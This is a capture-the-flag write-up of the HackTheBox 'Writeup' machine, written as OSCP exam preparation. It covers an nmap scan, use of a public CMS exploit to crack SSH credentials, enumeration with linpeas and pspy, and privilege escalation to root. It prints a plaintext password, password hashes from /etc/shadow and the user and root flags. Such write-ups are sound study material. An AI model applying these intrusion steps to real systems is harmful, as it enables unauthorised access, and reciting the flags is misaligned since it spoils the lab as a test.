 # WRITEUP / OSCP PREP

![](../.gitbook/assets/4c5eccd2a65e4643a0963a5511960172.png)

## NMAP SCAN

```text
PORT   STATE SERVICE    REASON  VERSION
22/tcp open  ssh        syn-ack OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDKBbBK0GkiCbxmAbaYsF4DjDQ3JqErzEazl3v8OndVhynlxNA5sMnQmyH+7ZPdDx9IxvWFWkdvPDJC0rUj1CzOTOEjN61Qd7uQbo5x4rJd3PAgqU21H9NyuXt+T1S/Ud77xKei7fXt5kk1aL0/mqj8wTk6HDp0ZWrGBPCxcOxfE7NBcY3W++IIArn6irQUom0/AAtR3BseOf/VTdDWOXk/Ut3rrda4VMBpRcmTthjsTXAvKvPJcaWJATtRE2NmFjBWixzhQU+s30jPABHcVtxl/Fegr3mvS7O3MpPzoMBZP6Gw8d/bVabaCQ1JcEDwSBc9DaLm4cIhuW37dQDgqT1V
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPzrVwOU0bohC3eXLnH0Sn4f7UAwDy7jx4pS39wtkKMF5j9yKKfjiO+5YTU//inmSjlTgXBYNvaC3xfOM/Mb9RM=
|   256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEuLLsM8u34m/7Hzh+yjYk4pu3WHsLOrPU2VeLn22UkO
80/tcp open  tcpwrapped syn-ack
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## PORT 80 ENUMERATION

![](../.gitbook/assets/ab932aa580b64db8af8df7f9e2767888.png)

* Eeyore DoS protection

### /WRITEUP

#### CMS EXPLOIT

* [https://www.exploit-db.com/exploits/46635](https://www.exploit-db.com/exploits/46635)

![](../.gitbook/assets/2844e80fe9b34730a04ae05bec54654b.png)

```text
exploit.py -u http://target-uri --crack -w /path-wordlist
```

## SSH LOGIN

![](../.gitbook/assets/41f70775f44c43b88eb1ad36dd295e8a.png)

## CREDS

### SSH

```text
jkr:raykayjay9
```

## MACHINE ENUMERATION

### USERS WITH BASH

```text
root:x:0:0:root:/root:/bin/bash
jkr:x:1000:1000:jkr,,,:/home/jkr:/bin/bash
```

### USER JKR

```text
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
```

### LINPEAS.SH

```text
writeup
127.0.0.1    localhost
10.10.10.138    writeup.htb    writeup
```

-rwxr-xr-x 1 root root 18148040 Aug 8 2018 /usr/bin/mariabackup

* WRITABLE FILES/FOLDERS

  ```text
  /usr/local/bin
  /usr/local/games
  /usr/local/sbin
  ```

* PASSWORDS FOUND

```text
/etc/apache2/passwords:$apr1$zXpnkbX6$LPzyE8Wa0d1yNQ4/F8aQa.
```

### PSPY64

![](../.gitbook/assets/aeadfe0a68354aadb5b7fc9ad8fb9278.png)

![](../.gitbook/assets/6b81c88a883241deaaceee00eb3e353c.png)

## PRIVESC

![](../.gitbook/assets/fcde35c0afb34937bfe757f147c03f6b.png)

## CREDS

```text
root:$6$UlEJZekN$aPu1k14KxCPSqb/VMn46GlG2o4nzaXDCizgOSEVdID4zooOSL9evZ3SIof1cqSepwNvRZub1FfzHFIZmKCtDw.:18005:0:99999:7:::
jkr:$6$93CBiQYZ$mDSfcWRIg/zPXDlVWoKLYqWHTL3ppdvH/1NsUi8uhTMSLtJnwY2jSwg0AbocoNUitJcWZqvBTlGpkGYdkiwhL/:18005:0:99999:7:::
```

## FLAGS

### USER

```text
d4e493fd4068afc9eb1aa6a55319f978
```

### ROOT

```text
eeba47f60b48ef92b734f9b6198d7226
```

